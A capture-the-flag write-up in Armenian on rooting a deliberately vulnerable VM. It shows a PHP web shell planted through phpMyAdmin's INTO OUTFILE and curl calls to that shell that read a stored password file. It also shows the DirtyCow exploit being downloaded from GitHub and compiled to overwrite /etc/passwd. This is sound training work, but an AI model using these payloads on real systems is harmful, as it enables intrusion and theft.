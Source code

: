 # writeup1
VM run անելուց հետո լոգին լինելա մեզանից ուզում, բայց մենք չունենք լոգին փասս
դրա համար մեր համակարգչի մեջ օգտագործում ենք **netdiscover**
գործիքը․ ինչա անում սա․
**netdiscover** գործիքը վերադարձնումա մեզ մեր ցանցում էս պահի գործող բոլոր ip ները, բացի մեր մեքենայինից․
գրում ենք հետևյալ հրամանը․
```
netdiscover -r 192.168.1.0/24 #-r ֆլագը ip ների range նա, ու որտեղից իմացանք /24 -ի մասին, երբ որ անենք ip a կտեսնենք մեր ip ն, որը /24 ովա ավարտվում
```
ու արդյունքում տեսնում ենք հետևյալը․
```
Currently scanning: Finished!   |   Screen View: Unique Hosts

 11 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 498
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     e8:01:8d:27:a7:00      5     210  Fiberhome Telecommunication
 192.168.1.3     c8:3a:35:36:91:18      1      60  Tenda Technology Co., Ltd.
 192.168.1.2     d8:af:81:0f:42:36      1      60  AO
 192.168.1.12    08:00:27:45:1c:86      2      84  PCS Systemtechnik GmbH
 192.168.1.6     32:4c:46:b9:8e:42      2      84  Unknown vendor
```

1-ինը իմ ռոուտերն ա
2-րդը իմ մյուս ռոուտերնա
3-րդը թիվիսա
4-րդը չգիտեմ դեռ, մտնենք բրաուզերով տեսնենք․
![[img/Pasted image 20240704110727.png]]
ըհն, կարծենք գտանք մեր մեքենայի ip-ն․ բայց շատ դատարկա առաջին հայացքից․ արժի directory ները փարս անել, տեսնենք ինչ կա չկա։

դրա համար կարանք օգտագործենք **dirb** թուլը
```
┌──(neo㉿matrix)-[~]
└─$ dirb http://192.168.1.12/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jul  4 11:13:15 2024
URL_BASE: http://192.168.1.12/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.1.12/ ----
+ http://192.168.1.12/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.12/fonts/
+ http://192.168.1.12/forum (CODE:403|SIZE:285)
+ http://192.168.1.12/index.html (CODE:200|SIZE:1025)
+ http://192.168.1.12/server-status (CODE:403|SIZE:293)

---- Entering directory: http://192.168.1.12/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Thu Jul  4 11:13:19 2024
DOWNLOADED: 4612 - FOUND: 4
```

տեսնում ենք, որ կա մի հատ /forum որի ստատուս կոդը 403 ա (forbidden)
քանի որ մենք միայն http ով էինք սկան արել, եկեք մի հատ https ով փորձենք
աշխարհի output ը տվեց, մինչ սա լինումա, կարանք արդեն https ով ֆորումը մտնենք։
![[img/Pasted image 20240704112010.png]]
մինչ էս ամենը կուսումնասիրենք, կարանք **nmap** դնենք աշխատի էս մեր ip ի համար․
**nmap**-ը գործիքա, որը սկանա անում մեր տված ip ի բաց պորտերը, ու իրանց մասին ինֆոյա տալիս․ էս վափշե սկզբում պետքա անեինք, ուղղակի ես տարիքով մարդ եմ, մոռացել էի․
```
sudo nmap 192.168.1.12 -sS -sV -sC -v &>out
```

մինչ սկանա լինում,  **Probleme login ?** էջում հետաքրքիր լոգեր ենք տեսնում, որ lmezard user ը ուզումա լոգին լինի, չի ստացվում․ ու որ բրաուզերի ֆունկցիաներից օգտվելով search անենք էդ username ը, կտեսնենք սա.

![[img/Pasted image 20240704112903.png]]
տեսնում ենք էս լոգերից, որ էդ user ը միամիտ իրա password նա գրել, որպես username ու ֆեյլ ա տվել․

կայքում լոգին լինելու տեղ կա, էկեք դրանով փորձենք
![[img/Pasted image 20240704113729.png]]
ու թույն, լոգին էղանք
**dirb**-ի output ում նաև կար webmail-ը
![[img/Pasted image 20240704114314.png]]
lmezard ով լոգին չեղավ, բայց եթե մեր ֆորումից նայենք մեր user ի մեյլը, կտեսնենք սա
![[img/Pasted image 20240704120557.png]]

էս մեյլով լոգին լինելը ստացվեց, ու մի հետաքրքիր նամակ ենք տեսնում ստեղ
![[img/Pasted image 20240704120634.png]]
ու երբ որ մտնենք phpmyadmin
![[img/Pasted image 20240704120741.png]]
էս մեյլի տված փասսվորդով կկարենանք լոգին լինենք

ու էստեղ ունենք sql կոդ գրելու հնարավորություն, ու 40 տարի տանջվելուց և Slack ով ուռիշ մարդկանցից ճշտելլուց հետո հասկացա, որ մենք permission ունենք մենք templates_c folder-ում
դրա համար run կանենք հետևյալը
```
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/gago.php'
```
![[img/Pasted image 20240704122427.png]]
ըհն, ստացանք սա․

հիմա եկեք տեսնենք ինչեր կան ստեղ

```
┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20%20/home'
1	LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20-a%20/home'
1	.
..
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME'
1	.
..
password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=ls%20-a%20/home/LOOKATME/password'
1	/home/LOOKATME/password

┌──(neo㉿matrix)-[~]
└─$ curl --insecure 'https://192.168.1.18/forum/templates_c/gago.php?cmd=cat%20/home/LOOKATME/password'
1	lmezard:G!@M6f4Eatau{sF"

```

էս լոգին փասսով ցավոք ssh ով լոգին չենք կարում լինենք, բայց vm ով կարում ենք

![[img/Pasted image 20240712001204.png]]
անենք uname -a տեսնենք ինչ կեռնելա, որովհետև տատուցս տարիքով մի քիչա փոքր էս iso ի ֆայլը
![[img/Pasted image 20240712001336.png]]
ու մի փոքր գուգլելուց հետո **linux 3.2 cve** հանդիպեցի էս լինքին
https://www.cybersecurity-help.cz/exploits/1039/?ref=bulletin
ու գտա github ից էս exploit ը
https://github.com/firefart/dirtycow
git չունենք clone անելու համար, բայց ունենք curl ու 2 քթի ծակ։

գնում ենք tmp, ու curl ով քաշում ենք ֆայլը

```
cd /tmp
curl https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c > dirty.c
```
exploit-ը օգտագործելու ձևը գրած ա ֆայլում

// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at

compile անենք, ու run անենք

![[img/Pasted image 20240712004026.png]]
կարծենք ստացվեց․ էկեք փորձենք լոգին լինենք․ էս սկրիպտը username ը փոխումա, էդիթ կանեմ, իմ ֆայլերի մեջ root ով կգցեմ, որ հետո չասեք բա խի root չի, չնայելով, որ id-ն 0-նա։
![[img/Pasted image 20240712004305.png]]
կարաք շնորհավորեք, ունենք root.

![[img/Pasted image 20240712011419.png]]
(էս էլ փոխած կոդը, որը գտնվում ա /scripts folder-ի մեջ)
